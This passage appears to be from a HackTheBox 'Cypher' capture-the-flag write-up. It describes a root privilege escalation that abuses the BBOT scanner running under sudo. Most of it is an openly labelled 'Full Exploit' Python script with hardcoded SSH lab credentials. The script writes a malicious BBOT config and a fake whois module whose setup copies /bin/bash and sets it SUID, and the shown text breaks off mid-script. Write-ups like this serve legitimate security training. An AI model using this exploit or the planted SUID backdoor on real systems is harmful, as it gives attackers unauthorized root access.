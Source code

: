 ### **Potential Exploit?**

- If BBOT **reads** and **processes** `/root/root.txt`, you might be able to **leak its contents** in debug logs or error messages.
- Since BBOT runs as root via `sudo`, it has **permission to read `/root/root.txt`**, even if your user normally wouldn’t.

![Screenshot 2025-03-02 at 1.34.57 AM.png](/assets/Images/HTB_Cypher/Screenshot_2025-03-02_at_1.34.57_AM.png)

---

## 😈 `Full Exploit` :-

A Fully Automated Exploit for the whole process 

```python
#!/usr/bin/env python3
# Exploit Developed By :- PaiN
import paramiko
import time

# SSH credentials
hostname = "10.10.11.57"
port = 22
username = "graphasm"
password = "cU4btyib.20xtCMCXkBmerhK"
file_path = "/home/graphasm/user.txt"
remote_script_path = "/tmp/exploit.sh"

# Bash script was made by :- {M@r&k}
bash_script = """#!/bin/bash
set -e

echo "Creating malicious BBOT config..."
cat << EOF > /tmp/myconf.yml
module_dirs:
  - /tmp/modules
EOF

echo "Creating modules directory..."
mkdir -p /tmp/modules

echo "Creating malicious whois2 module..."
cat << 'EOF' > /tmp/modules/whois2.py
from bbot.modules.base import BaseModule
import os

class whois2(BaseModule):
    watched_events = ["DNS_NAME"]
    produced_events = ["WHOIS"]
    flags = ["passive", "safe"]
    meta = {"description": "Query WhoisXMLAPI for WHOIS data"}
    options = {"api_key": ""}
    options_desc = {"api_key": "WhoisXMLAPI Key"}
    per_domain_only = True

    async def setup(self):
        os.system("cp /bin/bash /tmp/bash && chmod u+s /tmp/bash")
        self.api_key = self.config.get("api_key")
        return True

    async def handle_event(self, event):
        pass
EOF
```